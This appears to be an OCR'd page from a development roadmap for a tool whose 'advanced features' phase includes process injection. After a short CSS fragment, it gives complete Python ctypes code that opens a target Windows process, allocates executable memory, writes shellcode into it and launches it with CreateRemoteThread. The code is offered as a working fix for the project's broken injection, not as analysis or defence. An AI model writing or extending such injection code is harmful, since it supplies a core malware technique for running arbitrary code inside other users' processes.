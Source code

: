 ```css
    }
    
    /* Make tables scrollable */
    .table-wrapper {
        overflow-x: auto;
    }
}
```

---

## PHASE 4: ADVANCED FEATURES (Week 6-7)

### 4.1 Implement Process Injection (Currently Broken)
**File:** Create new `PyLib/inject.py`
**Current:** Crashes target process
**Proper Implementation:**
```python
import ctypes
from ctypes import wintypes

def inject_shellcode(pid, shellcode):
    # 1. Open process with proper permissions
    PROCESS_ALL_ACCESS = 0x1F0FFF
    k32 = ctypes.windll.kernel32
    
    h_process = k32.OpenProcess(PROCESS_ALL_ACCESS, False, pid)
    if not h_process:
        return False
    
    # 2. Allocate memory in target process
    MEM_COMMIT = 0x1000
    MEM_RESERVE = 0x2000
    PAGE_EXECUTE_READWRITE = 0x40
    
    allocated = k32.VirtualAllocEx(
        h_process, 0, len(shellcode),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    )
    
    # 3. Write shellcode
    written = wintypes.SIZE_T()
    k32.WriteProcessMemory(
        h_process, allocated, shellcode,
        len(shellcode), ctypes.byref(written)
    )
    
    # 4. Create remote thread
    thread = k32.CreateRemoteThread(
        h_process, None, 0, allocated, None, 0, None
    )
    
    k32.CloseHandle(h_process)
    return thread != 0
```
